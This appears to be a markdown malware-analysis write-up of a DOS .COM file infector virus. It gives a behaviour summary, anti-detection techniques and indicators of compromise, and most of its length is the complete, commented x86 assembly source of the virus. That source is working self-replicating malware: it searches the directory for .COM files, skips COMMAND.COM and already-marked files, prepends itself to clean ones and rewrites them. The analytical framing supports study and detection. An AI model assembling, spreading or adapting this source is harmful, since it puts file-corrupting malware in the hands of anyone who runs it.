

# Analysis of a DOS COM File Infector Virus

## Introduction

This document provides an in-depth analysis of a DOS-based `.COM` file infector virus written in x86 assembly (tiny model). The malware operates by infecting other `.COM` files in the current directory, using low-level DOS interrupts and direct memory manipulation. It avoids infecting system-critical files (like `COMMAND.COM`) and marks infected files with a `NOP NOP` signature. It does not remain memory-resident, but uses a FAR JMP to maintain control after execution.

https://www.virustotal.com/gui/file/c17dc774329fda62b91c2d30034836d5d864540cff128405f6f824d1168058f1/detection

## General Behavior

- Backs up the command-line arguments.
- Copies itself into a memory buffer for use in infections.
- Searches for `.COM` files, excluding critical ones.
- Checks if target files are already infected or too large.
- Prepends the virus to clean files and rewrites them.
- Restores parameters and installs a FAR JMP at the memory top.
- Exits gracefully.

## Technical Analysis

### Full Source Code with Inline Comments

```asm
.model  tiny
.code
org     100h         ; Entry point for .COM file (loads at CS:0100)

kkk:                ; Virus start

    nop             ; Infection marker: NOP NOP (90 90)
    nop

    ; Save command-line parameters
    mov     cx,80h
    mov     si,0080h
    mov     di,0ff7fh
    rep     movsb               ; Save 128 bytes from 0x80 to 0xFF7F

    ; Calculate virus size
    lea     ax,begp             ; AX ← end of virus
    mov     cx,ax
    sub     ax,100h             ; Virus length = end - 0x100
    mov     ds:[0fah],ax        ; Store virus length at 0xFA

    ; Setup memory buffers
    add     cx,fso              ; CX ← buffer start (virus + file)
    mov     ds:[0f8h],cx        ; Write buffer
    add     cx,ax
    mov     ds:[0f6h],cx        ; Read buffer

    ; Copy virus to buffer
    mov     cx,ax
    lea     si,kkk
    mov     di,ds:[0f8h]
RB: rep     movsb               ; Copy virus to memory buffer

    stc                         ; Set Carry Flag

    ; Find first *.COM file
    lea     dx,fff
    mov     ah,4Eh
    mov     cx,20H              ; Archive attribute
    int     21h

    or      ax,ax
    jz      LLL
    jmp     done

LLL:
    ; Get current DTA pointer
    mov     ah,2Fh
    int     21h                 ; ES:BX ← DTA address

    ; Read file size
    mov     ax,es:[bx+1ah]
    mov     ds:[0fch],ax

    add     bx,1eh              ; BX ← filename pointer
    mov     ds:[0feh],bx

    ; Skip files starting with "CO" (e.g., COMMAND.COM)
    mov     ax,'OC'             ; Little-endian 'CO' = 'OC'
    sub     ax,ds:[009eh]
    je      fin

    ; Ensure new file won't exceed memory limits
    add     ax,180h
    add     ax,ds:[0fah]
    add     ax,fso
    cmp     ax,0fff0h
    ja      fin

    ; Open file for R/W
    clc
    mov     ax,3d02h
    mov     dx,bx
    int     21h

    ; Read file
    mov     bx,ax
    mov     ah,3fh
    mov     cx,ds:[0fch]
    mov     dx,ds:[0f6h]
    int     21h

    ; Check infection marker
    mov     bx,dx
    mov     ax,[bx]
    sub     ax,9090h
    jz      fin

    ; Check for "MZ" executable
    mov     al,'M'
    mov     di,dx
    mov     cx,ds:[0fch]
    repne   scasb
    jne     cont
    mov     al,'Z'
    cmp     es:[di],al
    je      fin

cont:
    ; Store original size before buffer
    mov     ax,ds:[0fch]
    mov     bx,ds:[0f6h]
    mov     [bx-2],ax

    ; Create new infected file
    mov     ah,3ch
    mov     cx,00h
    mov     dx,ds:[0feh]
    clc
    int     21h

    mov     bx,ax
    mov     ah,40h
    mov     cx,ds:[0fch]
    add     cx,ds:[0fah]
    mov     dx,ds:[0f8h]
    int     21h

    ; Close file
    mov     ah,3eh
    int     21h

FIN:
    ; Find next file
    stc
    mov     ah,4fh
    int     21h

    or      ax,ax
    jnz     done
    jmp     LLL

DONE:
    ; Restore command-line params
    mov     cx,80h
    mov     si,0ff7fh
    mov     di,0080h
    rep     movsb

    ; Set FAR JMP at memory top
    mov     ax,0A4F3H
    mov     ds:[0fff9h],ax
    mov     al,0eah
    mov     ds:[0fffbh],al
    mov     ax,100h
    mov     ds:[0fffch],ax

    lea     si,begp
    lea     di,kkk
    mov     ax,cs
    mov     ds:[0fffeh],ax
    mov     kk,ax
    mov     cx,fso

    db      0eah
    dw      0fff9h
kk  dw      0000h

fff     db  '*?.com',0
fso     dw  0005h

begp:
    mov     ax,4C00h
    int     21h

end kkk
```

## Techniques Used

### File Infection
- Scans for `.COM` files via `INT 21h, AH=4Eh/4Fh`.
- Marks infection with `NOP NOP` at file start.
- Prepend virus to a clean file and save as original.

### Stealth / Anti-Detection
- Skips system files starting with `CO` (COMMAND.COM).
- Avoids re-infecting already infected files.
- Checks for MZ (Windows EXE) signature.

### Memory Control
- Installs a FAR JMP at `0xFFFB` to redirect execution to virus entry point.

## Conclusion

A compact, clean example of a DOS file-infecting virus:
- Straightforward infection logic.
- No advanced obfuscation.
- Leverages DOS interrupt calls and memory manipulation.
- Potentially detectable via signature-based methods.

## Indicators of Compromise (IOCs)
- File starts with `NOP NOP` (`0x9090`).
- FAR JMP installed at memory `0xFFFB` pointing to `0x0100`.
- Uses DOS INT 21h: 3Dh, 3Fh, 40h, 4Eh, 4Fh, 3Ch, 2Fh.
- Skips files starting with `"CO"` and avoids `.EXE` format.


